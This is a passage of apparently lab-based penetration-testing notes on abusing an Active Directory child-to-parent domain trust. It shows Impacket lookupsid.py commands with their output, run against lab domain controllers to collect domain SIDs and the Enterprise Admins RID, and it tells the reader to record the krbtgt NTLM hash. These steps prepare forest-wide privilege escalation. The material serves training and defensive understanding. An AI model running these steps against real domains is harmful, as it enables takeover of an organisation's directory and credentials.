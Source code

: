 Note down the NTLM hash for the `krbtgt` account returned in the format:

```powershell
krbtgt:RID:lmhash:ntlmhash:::
```

## **Finding Domain SIDs**

Use [`lookupsid.py`](http://lookupsid.py) from Impacket to enumerate the SID for the child domain. Target the child domain controller, an account with domain admin rights, and grep for the "Domain SID" line:

```powershell
lookupsid.py CHILDDOMAIN/user:password@CHILDDC | grep "Domain SID"

 $lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240
Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

Password:
[*] Brute forcing SIDs at 172.16.5.240
[*] StringBinding ncacn_np:172.16.5.240[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-2806153819-209893948-922872689
500: LOGISTICS\Administrator (SidTypeUser)
501: LOGISTICS\Guest (SidTypeUser)
502: LOGISTICS\krbtgt (SidTypeUser)
512: LOGISTICS\Domain Admins (SidTypeGroup)
513: LOGISTICS\Domain Users (SidTypeGroup)
514: LOGISTICS\Domain Guests (SidTypeGroup)
515: LOGISTICS\Domain Computers (SidTypeGroup)
516: LOGISTICS\Domain Controllers (SidTypeGroup)
517: LOGISTICS\Cert Publishers (SidTypeAlias)
520: LOGISTICS\Group Policy Creator Owners (SidTypeGroup)
521: LOGISTICS\Read-only Domain Controllers (SidTypeGroup)
522: LOGISTICS\Cloneable Domain Controllers (SidTypeGroup)
525: LOGISTICS\Protected Users (SidTypeGroup)
526: LOGISTICS\Key Admins (SidTypeGroup)
553: LOGISTICS\RAS and IAS Servers (SidTypeAlias)
571: LOGISTICS\Allowed RODC Password Replication Group (SidTypeAlias)
572: LOGISTICS\Denied RODC Password Replication Group (SidTypeAlias)
1001: LOGISTICS\lab_adm (SidTypeUser)
1002: LOGISTICS\ACADEMY-EA-DC02$ (SidTypeUser)
1103: LOGISTICS\DnsAdmins (SidTypeAlias)
1104: LOGISTICS\DnsUpdateProxy (SidTypeGroup)
1105: LOGISTICS\INLANEFREIGHT$ (SidTypeUser)
1106: LOGISTICS\htb-student_adm (SidTypeUser)
```

Repeat the process, targeting the forest root domain controller to get its domain SID. Append the RID for the Enterprise Admins group (519) to the root domain SID:

```powershell
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise"
Password:
Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

[*] Brute forcing SIDs at 172.16.5.5
[*] StringBinding ncacn_np:172.16.5.5[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-3842939050-3880317879-2865463114
498: INLANEFREIGHT\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: INLANEFREIGHT\administrator (SidTypeUser)
501: INLANEFREIGHT\guest (SidTypeUser)
502: INLANEFREIGHT\krbtgt (SidTypeUser)
512: INLANEFREIGHT\Domain Admins (SidTypeGroup)
513: INLANEFREIGHT\Domain Users (SidTypeGroup)
514: INLANEFREIGHT\Domain Guests (SidTypeGroup)
515: INLANEFREIGHT\Domain Computers (SidTypeGroup)
```